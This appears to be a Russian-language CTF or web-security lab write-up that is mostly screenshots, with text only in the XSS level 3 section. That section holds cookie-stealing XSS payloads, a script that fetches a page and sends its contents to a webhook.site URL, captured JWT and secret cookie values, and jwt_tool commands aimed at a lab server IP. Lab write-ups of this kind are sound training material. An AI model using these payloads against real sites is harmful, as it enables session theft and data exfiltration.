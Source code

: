 Задание CE: уровень 0




![image](https://github.com/user-attachments/assets/35395473-951f-4e6b-8135-bcd7bf1e8fc9)


![image](https://github.com/user-attachments/assets/360ca223-440b-4db3-9c9d-91dff4b2b3dd)


![image](https://github.com/user-attachments/assets/0c1967fc-082c-43e3-88b6-27034452d221)




Задание XSS: уровень 0


![image](https://github.com/user-attachments/assets/b36c8816-b801-4863-82db-aa8e5940411e)

![image](https://github.com/user-attachments/assets/8197605c-2165-4646-a0d8-27c1865e0d14)









Задание FU: уровень 0



![image](https://github.com/user-attachments/assets/9c4f8d0f-572a-4397-8467-d04bdf917dd3

![image](https://github.com/user-attachments/assets/87f3e36c-5994-4ce0-81c3-b427f223a4ae)


![image](https://github.com/user-attachments/assets/874509f7-f323-4f30-86e3-c6f90584ec54)

![image](https://github.com/user-attachments/assets/c653cfc3-2808-4542-9d8b-72afbdaf41c0)










Command Execution: уровень 1

![image](https://github.com/user-attachments/assets/b7ebee0b-3b24-41de-aa81-83540012771a)

![image](https://github.com/user-attachments/assets/cfa68234-318c-41f3-8fb6-f60d2c0faaa2)

![image](https://github.com/user-attachments/assets/4f956069-8a47-4900-8962-71ba8103f02d)



Command Execution: уровень 2


![image](https://github.com/user-attachments/assets/4f2182ee-3b58-4be8-8407-d5c353a10680)


![image](https://github.com/user-attachments/assets/ea996ee5-fe19-47d3-82ae-be4f20bbfb8d)




![image](https://github.com/user-attachments/assets/75ee9eb2-423a-4a37-ab62-975791109093)

![image](https://github.com/user-attachments/assets/7efa1922-9ed9-419b-a7de-fce6a679acb8)




Command Execution: уровень 3

![image](https://github.com/user-attachments/assets/6e7ff00c-b425-47ec-b141-198de6fc58cb)

![image](https://github.com/user-attachments/assets/7cab80e3-b248-480f-8526-bac6d03bc214)

![image](https://github.com/user-attachments/assets/17ea7e22-1900-42e2-a690-1c6942bbdc38)



Command Execution: уровень 4


![image](https://github.com/user-attachments/assets/a797218f-b1dd-4fc3-9d02-2c743f720e34)

![image](https://github.com/user-attachments/assets/493e9da4-b2b0-49f7-a5dd-a0cc15250ba7)





 XSS: уровень 1

 ![image](https://github.com/user-attachments/assets/a200b3e2-622a-4419-8f5b-cb6420feaa74)

 <script>alert(document.cookie)</script>
![image](https://github.com/user-attachments/assets/62e43c79-285c-48cc-941f-9b8698606d7d)



 XSS: уровень 2

 
<body onload=alert(document.cookie)>

 ![image](https://github.com/user-attachments/assets/14402f74-d56c-4beb-a4fe-097906b96645)
 

![image](https://github.com/user-attachments/assets/8d07cb68-9225-41d2-88f3-4d6e0c68bc02)



  XSS: уровень 3


![image](https://github.com/user-attachments/assets/9c05f94f-ec0c-4ca0-8581-892fb8a2a8c6)





 ![image](https://github.com/user-attachments/assets/b4bddabe-5e73-41a6-920c-91eb1c49f105)

{"alg":"HS256","typ":"JWT"}



'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>

<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>'">

<SvG/oNloAd=alert(/w4piesy3nm/)>

some_important_info

<SvG/oNloAd=alert(some_important_info.txt)>

![image](https://github.com/user-attachments/assets/3092edf7-eacf-44ef-9b63-c685cb6f04ae)


![image](https://github.com/user-attachments/assets/1db9e6f9-d01e-483d-92a3-c297622c1ce9)



token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU; secret=MzB7WDU1X0MwMGsxM19Nb05TdDNyX30K; important_person_cookies=MzB7eHM1XzFkS193SDBfbjMzRF9pdH0K; token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU



<script>fetch('/some_important_info').then(r=>r.text()).then(d=>fetch('https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f?flag='+d))</script>


<SvG/oNloAdfetch('/some_important_info').then(r=>r.text()).then(d=>fetch('[https://your-server.com](https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f)?flag='+d))>

<script src="file:/var/www/html/csp-pentesting/malicious.js"></script>

	https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f

python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test"

python3 jwt_tool.py -t http://51.250.91.149/XSS/XSS_level3.php -rc "jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU;anothercookie=test" -M pb-np


![image](https://github.com/user-attachments/assets/6def24d6-e4ef-431c-9ea4-770bf8c84be5)

![image](https://github.com/user-attachments/assets/8899d99c-af68-4706-9606-d505730989e4)

![image](https://github.com/user-attachments/assets/a9f8020a-6fd6-4069-89a4-71a248193b3c)



  XSS: уровень 4

  
  ![image](https://github.com/user-attachments/assets/53ae8c91-d57b-469e-a8db-58823efef263)
  

![image](https://github.com/user-attachments/assets/b975d289-b902-4242-a5c9-838c07e6d4a2)


![image](https://github.com/user-attachments/assets/813d410c-f4ba-4b5b-86bb-eb846e0188a7)


![image](https://github.com/user-attachments/assets/5ed73545-dc70-487e-8294-ae52728ba45e)




File Inclusion: уровень 1

![image](https://github.com/user-attachments/assets/a06f1a4d-ad4a-46af-9102-9b81671add90)

![image](https://github.com/user-attachments/assets/ba4d1474-f18e-4f04-bd5e-f8b59ea56199)


File Inclusion: уровень 2

![image](https://github.com/user-attachments/assets/b6e3b87d-2443-4c8e-b379-21ef0a089335)



![image](https://github.com/user-attachments/assets/141c0458-fa18-46cd-b1ea-89da7be6ae13)


![image](https://github.com/user-attachments/assets/cbe58cb1-8a85-401d-bacb-079394f3a488)





File Inclusion: уровень 3

![image](https://github.com/user-attachments/assets/93c358d5-c2eb-4e04-9464-872663714c45)

![image](https://github.com/user-attachments/assets/15697450-b352-452c-bab2-ef50d7decd20)


![image](https://github.com/user-attachments/assets/9ae24d63-7ca9-4ee4-81cb-f729427a1f77)


![image](https://github.com/user-attachments/assets/2e78e121-203d-410b-b037-7f1ca77ef689)




![image](https://github.com/user-attachments/assets/f87d0dff-8c4c-4cd3-9178-709a0c905e51)




File Inclusion: уровень 4




![image](https://github.com/user-attachments/assets/03f4b645-8fdd-4de7-9d9d-d8334b88638d)

![image](https://github.com/user-attachments/assets/261345c3-4199-4cd4-9614-23e40fc47571)

![image](https://github.com/user-attachments/assets/84f369cd-0716-460e-8df9-5da08c378538)




SQLI: уровень 1


![image](https://github.com/user-attachments/assets/a15f2e67-5735-4dda-8718-ece037314b2e)


SQLI: уровень 2


![image](https://github.com/user-attachments/assets/f0e0ccce-1b74-4cab-a7b9-fb7f885fd2c3)


![image](https://github.com/user-attachments/assets/4c091ee1-489d-443b-9e66-415383d06c8f)



SQLI: уровень 3

![image](https://github.com/user-attachments/assets/4eace13f-115a-4529-8acd-684d45f31cec)


















![image](https://github.com/user-attachments/assets/b203ea74-25a2-49d7-9889-7ec1e867b18b)






